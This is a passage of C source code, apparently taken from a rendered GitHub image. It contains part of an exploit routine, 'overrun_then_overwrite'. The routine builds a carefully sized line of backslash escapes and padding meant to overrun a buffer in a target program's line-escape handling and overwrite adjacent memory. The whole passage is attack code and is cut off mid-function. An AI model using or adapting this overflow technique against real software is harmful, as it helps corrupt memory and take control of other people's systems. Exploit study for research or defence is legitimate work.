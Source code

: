 ```c
{
  if (write_line_alone(ctx, msg, size) < 0)
    return -1;

  if (getline(&ctx->buf, &ctx->bufsz, ctx->rfile) <= 0) {
    fputs("read line failed\n", stderr);
    return -1;
  }

  return expect_and_read_case(ctx);
}

static int
overrun_then_overwrite(struct context *ctx, const char *data, size_t size)
{
  char msg[128];
  size_t i, j;
  size_t offset, datalen, nslashes;

  for (i = 0; i < size; ++i)
  {
    if (data[i] == '\n') {
      fputs("overwrite impossible because of new line character\n", stderr);
      return -1;
    }
  }

  offset = 0;
  datalen = 0;
  for (i = 0; i < size; ++i)
  {
    if (data[i] == '\0' || data[i] == '\\') {
      datalen += 4;
      offset += 2;
    } else {
      datalen += 1;
    }
  }
  offset += 2;
  datalen += 2;

  if (offset + datalen + 2 > sizeof(msg)) {
    fputs("overwrite impossible because of data too long\n", stderr);
    return -1;
  }

  nslashes = 0;
  while (offset + datalen + nslashes < 98)
  {
    nslashes += 2;
    offset += 1;
  }

  for (i = 0; i < offset + datalen + nslashes; ++i)
    msg[i] = '\\';
  for (i = i; i < sizeof(msg) - 2; ++i)
    msg[i] = 'a';
  msg[sizeof(msg) - 2] = '\\';
  msg[sizeof(msg) - 1] = '\0';

  if (write_line_and_update(ctx, msg, sizeof(msg)) < 0)
    return -1;

```